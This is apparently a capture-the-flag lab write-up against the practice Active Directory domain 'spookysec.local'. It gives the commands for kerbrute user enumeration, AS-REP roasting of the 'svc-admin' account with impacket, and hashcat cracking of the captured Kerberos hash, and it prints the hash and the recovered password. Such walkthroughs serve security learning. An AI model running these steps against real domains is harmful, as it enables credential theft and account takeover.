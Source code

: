 * After enumerating with NMAP, enumerate 139/445 more with `enum4linux`, kerberos with `kerbrute`


### Kerbrute
* Since we saw kerberos on `88`, hit the box with `kerbrute` to get some user enumeration.
	* `kerbrute userenum -d spookysec.local --dc spookysec.local ../assets/userlist.txt     ` shows that a service account  - `svc-admin@spookysec.local` - has been enumerated.
	![](Pasted%20image%2020220113225654.png)

* Steal the password hash from `svc-admin` with `GetNPusers` from `impacket`
	![](Pasted%20image%2020220113230757.png)

* Crack it with hashcat - gives us `management2005` as the password
	* `.\hashcat.exe -m 18200 -a 0 '$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:f4f90dacd662930d36bf5123e4b895ab$7e29b8ca975b2ab5c1702ec7d0be                                                                                                           e6fbc8063118129399e42d0f1fa22c4ad3c85e00521b38c38bfb4a828b520e5608fd54357fe232251ee61ed1184a74badcba4dd14fd30805d17a1ee862819eb032b4e                                                                                                           e0568d5da71780db4de5c364ec3cbcc1610974bdfa20e34a26576a3f7fd22d69a90e7601c3d91536d538c0d0d55ce82003d78a319f73191a15e517d22c4819a54fefc                                                                                                           c9a96810ef15863a9b60b1636635d9909e9501c7f6be76e44588a2ea37da3551bfa0ad94be7a2f849b5431335e7fe4e28a5c8a85592c4cacc850372f6fc46ab0518e3                                                                                                           3185bd598fbfb70534cd1696f7838cc6ffb27cd3c4d189df15c291a3cc42e' ..\rockyou.txt`
	* 